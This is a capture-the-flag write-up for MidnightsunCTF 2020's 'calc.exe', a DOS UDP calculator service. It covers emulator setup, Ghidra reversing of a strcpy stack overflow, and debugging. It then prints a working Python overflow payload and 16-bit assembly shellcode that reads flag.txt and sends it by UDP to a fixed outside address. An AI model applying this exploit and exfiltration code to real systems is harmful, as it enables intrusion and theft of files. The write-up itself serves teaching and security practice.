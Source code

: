 ```yaml
---
layout: post
category: Pwn
title: MidnightsunCTF 2020 - calc.exe
tags: 
    - kowu
---
```


# Challenge Description / Setup

```
During some renovations, we found an ancient computer with this VM hidden behind a wall.
We believe it is the earliest example of networked computation. (QEMU with PCNET network)
```
[Download](/assets/bin/midnight_floppy.img)

So we got a DOS floppy image. The Image contained the following files:
```
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
1991-11-11 05:00:02 .RHS.        33430        33792  IO.SYS
1991-11-11 05:00:02 .RHS.        37394        37888  MSDOS.SYS
1991-11-11 05:00:02 ....A        47845        48128  COMMAND.COM
2020-10-01 20:13:50 ....A        32769        33280  DHCP.EXE
2020-10-01 20:13:50 ....A         6751         7168  PCNTPK.COM
2020-10-01 20:13:50 ....A        55816        56320  calc.exe
2020-10-01 20:13:50 ....A           37          512  flag.txt
2020-10-01 20:13:50 ....A           77          512  AUTOEXEC.BAT
2020-10-03 10:58:54 ....A          247          512  MTCP.CFG
1999-11-17 17:32:02 ....A            0            0  BOOT500
------------------- ----- ------------ ------------  ------------------------
2020-10-03 10:58:54             214366       218112  10 files

```

Autoexec would start DHCP to run a DHCP server, then the challenge "calc.exe" is executed. It turns out that [mTCP](http://www.brutman.com/mTCP/) was used as a TCP stack. Calc.exe would then listen on UDP port 8888 for simple equations of the format `number operand number` and echo the result back (via network).


First I spent some time getting QEMU and NAT working. I have no clue of networking and just followed Instructions at [https://wiki.qemu.org/Documentation/Networking/NAT](https://wiki.qemu.org/Documentation/Networking/NAT). Finally I ended up using the following combination:

`sudo qemu-system-i386 -drive file=floppy.img,if=floppy,format=raw -m 64 -boot a -netdev tap,id=mynet0 -device pcnet,netdev=mynet0 --nographic`

It probably would be way easier (and does not require root) to just forward UDP port 8888, but I did the setup before reversing, and before looking into the provided openvpn conf, where the ports would have been documented.

Server:
```
...
DHCP request sent, attempt 1: Offer received, Acknowledged

Good news everyone!

IPADDR = 192.168.53.76
NETMASK = 255.255.255.0
GATEWAY = 192.168.53.1
NAMESERVER = 192.168.53.1
LEASE_TIME = 3600 seconds

Settings written to 'MTCP.CFG'
Sending [1337 + 9774 = 11111]


```

Client:
```
user@KARCH ~ % nc -u 192.168.53.76 8888
1337+9774
1337 + 9774 = 11111
```

# Reversing / Bug Hunting

I reversed the binary using Ghidra. By comparing characteristic strings in the binary and correlating them with exmaple source from the mTCP project, I could locate the mainloop at `1000:09c1`. From there it was easy to locate the UDP packet handler at `1000:0afa`.

decompiled handler:
```c
void __fastcall_member udp_handler(byte *packet,char *header)

{
  void *unaff_DI;
  void *unaff_SS;
  
  parsepkt((char *)(packet + 0x2a));
  dbg_print_sending((char *)0x2b5,(void *)0x1aa8,(void *)0xbfc);
  sendUDP((uint)(packet + 0x1a),(int)header,0x200,0xbd2,unaff_SS,1);
  Buffer_free(unaff_DI);
  return;
}
```

the bug is an obvious stackoverflow via strcpy in the parsepkt function, a long input would result in a hang:
```c
void __fastcall_member parsepkt(char *input)

{
  char cVar1;
  char *buffer_ptr;
  undefined2 unaff_SS;
  char buffer [20];
  
  strcpy(buffer,input);
  buffer_ptr = buffer;
  while( true ) {
    cVar1 = *buffer_ptr;
    if (cVar1 == '\0') {
      return;
    }
    if ((((cVar1 == '+') || (cVar1 == '-')) || (cVar1 == '*')) || (cVar1 == '/')) break;
    buffer_ptr = buffer_ptr + 1;
  }
  *buffer_ptr = '\0';
  buffer_ptr = buffer_ptr + 1;
  atoi(buffer);
  atoi(buffer_ptr);
  FUN_1000_3a65(0xbfc);
  return;
}
```
Now the presented decompiled source looks quite nice, but for this I had to teach Ghidra some new 16bit calling conventions (like microsoft 16bit fastcall it seems). This worked surprisingly easy, some existing specifications can be modified in `Ghidra/Processors/x86/data/languages/x86-16.cspec`. I think I did't quite get them right, but sufficiently well to understand what's going on. It should be `AX, BX, CX, DX, ES, stack...`, return values in `AX, DX`.

# Debugging

To debug, I attached radare (`r2 -a x86 -b 16 -D gdb gdb://localhost:1234`) / gdb (`gdb -ex "target remote localhost:1234" -ex "set architecture i8086"`) to qemus gdb server (add `-S -s` options), and placed a breakpoint at `b *0x1459b`. I stumbled upon some strange behaviour. The breakpoint was hit, and stepping "worked", but somehow the IP was completely off. It turns out this is because both debuggers don't take care of code segments. I stumbled upon some GDB script at [https://ternet.fr/gdb_real_mode.html], which allowed at least for some more comfortable single stepping in gdb. In r2, i just manually calculated addresses e.g. by `s cs * 16 + eip`.


# Shellcode Execution

Next I found some simple retf ropgadget which allowed me to set ip and cs, so that cs:ip points to the stack (under my control). Shellcode execution :)
```python
# bp di si cx bx ip (0x0a40 = retf) | ip cs | 4X fill | shellcode
r.send(b'+' * 24 + struct.pack(
    '<12H',
    0x1111, 0x2222, 0x3333, 0x4444, 0x5555, 0x0a40,
    0x2710, 0x202e, 0x5858, 0x5858, 0x5858, 0x5858
) + shellcode)
```

# Shellcode

Now it is "easy". I used the 0x21 DOS intterrupt [https://www.beck-ipc.com/api_files/scxxx/dosemu.htm](https://www.beck-ipc.com/api_files/scxxx/dosemu.htm) to open the flag file, and read the flag into memory. Next I prepared the arguments to call the already existing `int8_t Udp::sendUdp( IpAddr_t host, uint16_t srcPort, uint16_t dstPort, uint16_t payloadLen, uint8_t *data, uint8_t preAlloc)` function, to echo back the flag via udp. I filled out all the important arguments with static data (static ip address, 1337 src / dst port), and let wireshark listen for the resulting UDP packet. Less work for me :)

```asm
org 0
bits 16

; open flag.txt
xor ax, ax;
push ax;
push 0x7478;
push 0x742e;
push 0x6761;
push 0x6c66;
mov dx, sp;
xor ax, ax;
mov ah, 0x3d;
int 0x21;

; read file
mov cx, 0x111;
mov bx, ax;
mov dx, 0xbfc;
mov ah, 0x3f;
int 0x21;

; prepare 10.8.10.2
mov al, 10; ; dst ip
mov ah, 2;
push ax;
mov al, 10;
mov ah, 8;
push ax;
mov bp, sp;

xor ax, ax;  ; use buffer
inc ax;
push ax;

push ds; ; buffer
push 0xbd2;

push 0x201; ; length

; jump
push 0x13ab; ;cs
push 0x0b3b; ;ip

mov ax, bp;   ; ptr to 10.8.10.2
mov dx, ds;
mov cx, 1337; ; dst port
mov bx, 1337; ; src port

retf
```

![image](http://blog.redrocket.club/assets/img/calc_wireshark.png)
